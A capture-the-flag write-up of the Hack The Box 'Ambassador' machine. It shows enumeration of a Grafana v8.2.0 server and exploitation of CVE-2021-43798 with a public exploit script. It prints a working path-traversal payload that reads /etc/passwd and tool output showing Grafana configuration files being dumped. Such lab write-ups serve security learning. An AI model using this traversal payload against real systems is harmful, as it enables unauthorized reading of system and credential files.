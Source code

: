 ## Enumeration
Let's Take a look at the web service running on port 80 `http://10.10.11.183/`. it seems like a static web page hosted on port 80.

![amb-1](https://user-images.githubusercontent.com/87711310/218149803-5a8a401b-ee5e-4553-957b-52344fec02e3.png)

The only valuable thing about this site is that it gives me a hint that I can log into the box with the user `developer`. But to log in, Something called `DevOps` should give us the password.

![amb-2](https://user-images.githubusercontent.com/87711310/218149930-2992c674-44cf-4145-a0cd-275d665a22d8.png)

So, keeping it at the back of my mind, I visited port `3000` which redirected me to a `Grafana Login page` on `http://10.10.11.183:3000/login`

![amb-3](https://user-images.githubusercontent.com/87711310/218150178-11ce58df-74a7-43a3-9c8a-36b41b54112d.png)

The Version of Grafana `v8.2.0` (d7f71e9eae). This Grafana version vulnerable to `Unauthorized Arbitrary File Read vulnerability (CVE-2021-43798)`

On googling it, I found this exploit that I used to exploit the Grafana login page.

![amb-4](https://user-images.githubusercontent.com/87711310/218156143-32f0235e-ab53-4fb6-85d7-c2a4f7f155ef.png)


The Exploit could be downloaded using this [GitHub](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798.git) link.

To run the exploit, you have to save the Grafana URL in targets.txt which locate inside what we downloaded from GitHub using the below command.

```
echo "http://10.10.11.183:3000" > targets.txt
```

After Executing Our Python Script Using python exploit.py command Several types of files were saved along with a secret key dumbed down by the exploit.

```
──(darshan㉿kali)-[~/…/HackTheBox/Linux-Boxes/Ambassador/exploit-grafana-CVE-2021-43798]
└─$ sudo python exploit.py
  _____   _____   ___ __ ___ _     _ _ ________ ___ ___ 
 / __\ \ / / __|_|_  )  \_  ) |___| | |__ /__  / _ ( _ )                                                                                                    
| (__ \ V /| _|___/ / () / /| |___|_  _|_ \ / /\_, / _ \                                                                                                    
 \___| \_/ |___| /___\__/___|_|     |_|___//_/  /_/\___/                                                                                                    
                @pedrohavay / @acassio22                                                                                                                    
                                                                                                                                                            
? Enter the target list:  targets.txt

========================================

[i] Target: http://10.10.11.183:3000
                                                                                                                                                            
[!] Payload "http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd" works.
                                                                                                                                                            
[i] Analysing files...
                                                                                                                                                            
[i] File "/conf/defaults.ini" found in server.
[*] File saved in "./http_10_10_11_183_3000/defaults.ini".
                                                                                                                                                            
[i] File "/etc/grafana/grafana.ini" found in server.
[*] File saved in "./http_10_10_11_183_3000/grafana.ini".
                                                                                                                                                            
```